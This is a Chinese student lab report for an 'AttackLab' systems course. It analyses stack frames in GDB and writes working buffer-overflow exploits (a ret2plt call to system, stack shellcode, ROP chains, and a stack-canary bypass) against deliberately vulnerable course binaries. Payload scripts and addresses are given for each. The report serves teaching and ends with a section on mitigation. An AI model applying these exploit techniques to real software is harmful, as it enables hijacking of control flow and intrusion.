# ICS Lab3 AttackLab 实验报告

## 一、实验环境与目标

本实验使用仓库 `attack/` 目录下提供的四个程序完成：

- `dark-calc`：存在栈缓冲区溢出，栈固定且可执行；
- `dark-calc-nx`：栈不可执行、栈地址随机，但non-PIE；
- `dark-log`：在 `dark-calc-nx` 基础上开启 Stack Protector（Canary）；
- `malware`：一个 shell 脚本，被成功触发时打印bomb信息。

调试使用 GDB + GEF。三个程序的保护情况如下：

```
dark-calc     : GNU_STACK  RW
dark-calc-nx  : GNU_STACK  RW, NX enabled, non-PIE
dark-log      : GNU_STACK  RW, NX enabled, non-PIE, Stack Canary
```

关键常量（通过gdb的 `nm` / `objdump` 获得）：

```
dark-calc:    input=0x401977  eval=0x4019d7  grade_eval=0x401a87
              system@plt=0x4017e0  command_buf=0x6030d0
              pop rdi;ret=0x401c93   ret=0x401786
              fixed stack top=0x721000801000  input buffer=0x721000800fd0
dark-calc-nx: input=0x401868  grade_eval=0x401978
              pop rdi;ret=0x401a33   ret=0x401a34
dark-log:     input=0x4016d6  grade_eval=0x401677
              pop rdi;ret=0x4018a3   ret=0x4018a4
```

## 二、任务 1：观察 input 栈帧

在 `input` 处下断点并运行：

```gdb
b input
r
```

GEF 输出：



**问题 1：谁调用了 input？**

由 `trace` 段可见，`input` 的调用者是 `main`，返回地址为 `main+0x0e`，即 `0x401ad1`。

**问题 2：前三条指令在做什么？`$rbp` 处的值来自哪里？**

`input` 的前三条指令是函数 prologue：

```asm
0x401977 <input+0> push rbp        ; 保存main 的 rbp
0x401978 <input+1> mov rbp, rsp    ; 让rbp指向当前栈帧底部
0x40197b <input+4> sub rsp, 0x10    ; 为局部变量 expression[16] 分配空间
```

因此 `$rbp` 指向的内存中保存的是 `main` 的 `rbp`地址（`0x721000800ff0`），它是被 `push ` 压入的。

**问题 3：`$rbp+8` 处是什么？**

`$rbp+8`是 `input` 的返回地址，对应 `main` 中 `call input` 的下一条指令。

**问题 4：是哪条指令把它写进去的？**

来源是 `main` 中的调用指令：


```asm
0x401acc <main+9> call 0x401977 <input>
```

`call` 在执行跳转前会自动把下一条指令地址（`0x401ad1`）压栈。从 `0x401acc` 单步执行 `si` 可以看到 `rsp` 减 8 并写入该地址。

**问题 5：call、prologue、leave、ret 的作用**

- `call target`：将返回地址压栈，然后跳转到 `target`；
- `prologue`（`push rbp; mov rbp,rsp; sub rsp,N`）：保存调用者的 `rbp`，建立新栈帧，并为局部变量分配空间；
- `leave`：等价于 `mov rsp,rbp; pop rbp`，释放当前栈帧并恢复调用者的 `rbp`；
- `ret`：从栈顶弹出返回地址送入 `rip`，把控制流交还调用者。


## 三、任务 2：不同长度字符串输入测试

分别输入 20 和 32 个字符（`gets` 还会额外写入一个 `\0`，实际写入 21 和 33 字节）：
`

结果：

- 20 个字符：程序没有崩溃，仍然打印
  `Executing: echo $((12345678998765432123))` 并继续循环。
  原因是它只覆盖了 16 字节缓冲区以及保存的 `rbp` 的低 5 字节，而 `main` 在 `input` 返回后并不再使用这个被破坏的 `rbp`。
- 32 个字符：程序 `Segmentation fault`。
  因为它已经覆盖到返回地址（偏移 24 起），`ret` 时跳转到 `0x4141414141414141` 这类非法地址。

用 GDB 在 `gets` 返回后下断点观察（`b *0x40199f`，输入 32 个 A）：

```
0x721000800fd0 +0x00: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"  <- 缓冲区
0x721000800fe0 +0x10: "AAAAAAAAAAAAAAAA"                  <- saved rbp 被覆盖
0x721000800fe8 +0x18: "AAAAAAAA"                          <- 返回地址被覆盖
0x721000800ff0 +0x20: 0x...d900（首字节为 gets 追加的 \0）
```

可见超量数据依次写到了 `expression` 之后、保存的 `rbp`，再之后就是返回地址。

## 四、任务 3：检查 main 函数的机器码

在 `input` 断点处执行 `disas main`，再检查 `main` 起始地址附近的内存：




**问题 1：前三行汇编对应的机器码**

| 汇编 | 机器码 |
|---|---|
| `push rbp` | `55` |
| `mov rbp, rsp` | `48 89 e5` |
| `mov eax, 0x0` | `b8 00 00 00 00` |

**问题 2：机器码在内存中的排列方式**

x86-64 是指令变长、操作数小端存放。机器码按指令顺序在内存中连续排列，低地址存放前面的指令

在 `0x401ac3` 下断点后连续 `si`，`rip` 依次为 `0x401ac3 → 0x401ac4 → 0x401ac7 → 0x401acc`，说明每条指令占据连续的一段内存，且下一跳地址正好是当前指令长度之后的地址。

## 五、任务 4：利用缓冲区溢出执行 ./malware

### 5.1 攻击思路

`input` 中的 `gets(expression)` 可以越过 16 字节缓冲区，一直写到返回ret的地址。`dark-calc` 的返回地址在 `rbp+8`，而缓冲区在 `rbp-0x10`，因此覆盖返回地址需要先写 24字节的输入。

目标是调用 `system("./malware")`。所需元素：

- `system@plt = 0x4017e0`；

- 字符串 `./malware` 需要位于一个可被 `rdi` 指向的地址。注意到 `input` 在 `gets` 之后会执行
  `strcpy(command_buf, expression)`，而 `command_buf` 的地址固定为 `0x6030d0`；

- 只要让 `expression` 的开头是 `./malware\0`，`command_buf` 中就会得到 `./malware`。而且 `strcpy` 返回后 `rdi` 仍然保存着 `command_buf` 的地址，因此可以直接进入 `system`，无需额外的 `pop rdi` gadget。

payload 布局

```
偏移 0  ~ 9   : b"./malware\x00"        -> 被 strcpy 复制到 command_buf
偏移 10 ~ 23  : b"B" * 14               -> 填充到返回地址前
偏移 24 ~ 31  : p64(0x401786)           -> ret（用于栈对齐）
偏移 32 ~ 39  : p64(0x4017e0)           -> system@plt
```

载荷总长 40 字节。`leave; ret` 之后：`ret` 弹出 `0x401786`，该 gadget 再 `ret` 弹出 `system@plt`，此时 `rdi = 0x6030d0`，`system` 执行 `./malware`。

对应实现 `payload.py`：

```python
p64 = lambda x: struct.pack("<Q", x)
payload  = b"./malware\x00" + b"B" * 14
payload += p64(0x401786)
payload += p64(0x4017E0)
sys.stdout.buffer.write(payload)
```

### 5.4 运行结果

```bash
cd attack
python3 ../payload.py | ./dark-calc
```

输出：

## 六、任务 5：栈空间执行

### 6.1 shellcode 设计

目标仍是调用 `grade_eval(4)`（`0x401a87`），让它打印 `Hope A will be your grade!`。shellcode：

```asm
mov edi, 4              ; bf 04 00 00 00
mov eax, 0x401a87       ; b8 87 1a 40 00
sub rsp, 8              ; 48 83 ec 08   （调整栈对齐，供 printf 使用）
jmp rax                 ; ff e0
```

共 16 字节，正好填满缓冲区。`sub rsp,8` 是为了让 `grade_eval` 内部的 `printf` 满足 16 字节对齐。

### 6.2 payload 布局

```
偏移 0  ~ 15  : shellcode（16 字节）
偏移 16 ~ 23  : b"C" * 8            -> 覆盖 saved rbp
偏移 24 ~ 31  : p64(0x721000800fd0) -> 返回地址指回缓冲区开头
```

```python
shellcode = bytes.fromhex("bf04000000b8871a40004883ec08ffe0")
payload   = shellcode + b"C" * 8 + p64(0x721000800FD0)
```

### 6.3 运行结果

```bash
cd attack
python3 ../payload_dark.py | ./dark-calc
```

输出：



程序在打印后因 shellcode `jmp` 而非 `call` 导致返回地址无意义而崩溃，但目标输出已经产生，任务达成。

## 七、任务 6：ROP
`dark-calc-nx` 的栈不可执行，因此不能把 shellcode 放在栈上执行；同时它的栈地址随机，不能把栈地址硬编码。但它是 non-PIE，其代码段固定且可执行，所以使用 ROP：把 `.text` 中以 `ret` 结尾的小片段（gadget）串起来完成“调用 `grade_eval(4)`”。

在范围 `0x4019d0 ~ 0x401ae3` 内找到：

```
0x401a33 : 5f c3    pop rdi; ret
0x401a34 : c3       ret
```

### 7.1 ROP 链

覆盖返回地址需要 24 字节填充，之后：

```
p64(0x401a33)   pop rdi; ret
p64(4)          -> rdi = 4
p64(0x401a34)   ret（栈对齐）
p64(0x401978)   grade_eval
```

如果不插入 `0x401a34`，`grade_eval` 入口的 `rsp` 相对 16 字节不对齐，`printf` 内部可能因 SIMD 指令崩溃；插入一个 `ret` 后满足对齐要求。

```python
payload  = b"A" * 24
payload += p64(0x401A33)
payload += p64(4)
payload += p64(0x401A34)
payload += p64(0x401978)
```

### 7.3 运行结果

```bash
cd attack
python3 ../payload_rop.py | ./dark-calc-nx
```

输出：


## 八、任务 7：绕过 Canary

### 8.1 漏洞分析

`dark-log` 的 `input` 定义了一个结构体：

```c
struct log_frame {
  char expression[128];   // rbp-0x120
  char logMsg[128];       // rbp-0xa0
  int  len;               // rbp-0x20
  char pad[8];            // rbp-0x18
};
```

`input` 先执行 `gets(f.expression)`，再执行：

```c
memcpy(f.logMsg + f.len, f.expression, sizeof(f.expression));
```

其中 `f.len` 在 `gets` 之前被初始化为 0，但它在内存中位于 `expression` 的高地址方向，`gets` 可以把它覆盖。栈上还有：

```
rbp-0x08 : canary
rbp+0x00 : saved rbp
rbp+0x08 : 返回地址
```

`f.len` 距 `expression` 起点(-0x20) - (-0x120) = 0x100 = 256位，而 canary 位于偏移 `0x118 = 280`。因此我们可以写入到偏移 272 为止，**修改 `len` 但完全不碰 canary**。

### 8.2 绕过思路

令 `f.len = 0xa8 = 168`，则 `memcpy` 的目的地址为：

```
f.logMsg + 168 = (rbp - 0xa0) + 0xa8 = rbp + 8
```

正好是 `input` 的返回地址。`memcpy` 的源是 `expression` 的前 128 字节，所以只要在这 128 字节开头放好 ROP 链，`memcpy` 就会把它“搬运”到返回地址处，而 canary 保持原值，函数返回前的校验仍然通过。

ROP 链使用：

```
0x4018a3 : pop rdi; ret
0x4018a4 : ret（栈对齐）
0x401677 : grade_eval
```

`expression` 前 32 字节：

```
[0:8]   p64(0x4018A3)   pop rdi; ret
[8:16]  p64(4)
[16:24] p64(0x4018A4)   ret
[24:32] p64(0x401677)   grade_eval
```

### 8.3 payload 布局

```
偏移 0    ~ 127 : expression（前 32 字节为 ROP 链，其余填充）
偏移 128  ~ 255 : logMsg（填充，会被 memcpy 覆盖）
偏移 256  ~ 259 : int 168      -> 覆盖 f.len
偏移 260  ~ 263 : 填充
偏移 264  ~ 271 : pad[8]       -> 填充
总长 272 字节；canary 在偏移 280，未被触碰；
gets 追加的 \0 落在偏移 272 的间隙中，也安全。
```

```python
chain    = p64(0x4018A3) + p64(4) + p64(0x4018A4) + p64(0x401677)
payload  = chain.ljust(128, b"X")
payload += b"Y" * 128
payload += struct.pack("<i", 168)
payload += b"Z" * 4
payload += b"W" * 8
```

### 8.4 运行结果

```bash
cd attack
python3 ../payload_canary.py | ./dark-log
```

输出：


说明 Canary 校验通过，控制流被成功劫持。

### 8.5 如何重排局部变量才能防住这种攻击

劫持控制流能成功的关键是`len`（影响 `memcpy` 目的地址的控制变量）位于缓冲区 `expression` 的高地址一侧，且排在 canary 之前，因此可以在不破坏 canary 的前提下先改写 `len`，再借助程序自身的 `memcpy` 跨越 canary。

若要防止，应当把 `len` 等控制变量和指针放到缓冲区 `expression` 的低地址一侧（即定义在 `expression` 之前）。这样正向的缓冲区溢出会先撞到 canary，无法先改 `len`；或者让 canary 紧邻缓冲区末尾，这样任何要写越过缓冲区的行为都会立即破坏 canary；不要用攻击者可控的 `len` 作为 `memcpy` 的目的偏移，改用固定的 `sizeof` 或对 `len` 做严格的范围检查。

这样即使存在溢出，攻击者也无法构造出修改 `len` 让 `memcpy` 跳到返回地址的组合。

## 九、总结

本实验从调用栈的观察开始，逐步完成了四个任务：

1. 通过覆盖返回地址，配合 `system@plt` 执行了 `./malware`；
2. 在固定且可执行的栈上放入 shellcode，直接调用 `grade_eval`；
3. 在 NX + 栈地址随机的情况下，使用 `pop rdi; ret` 等 gadget 构造 ROP 链调用 `grade_eval`；
4. 在开启 Canary 的情况下，利用可控的 `len` 和程序自身的 `memcpy` 绕过栈保护调用 `grade_eval`。

本实验通过溢出的输入和其他方式在栈上进行操作，帮助理解了程序运行的原理和过程，以及可能产生的漏洞该如何利用和防护。

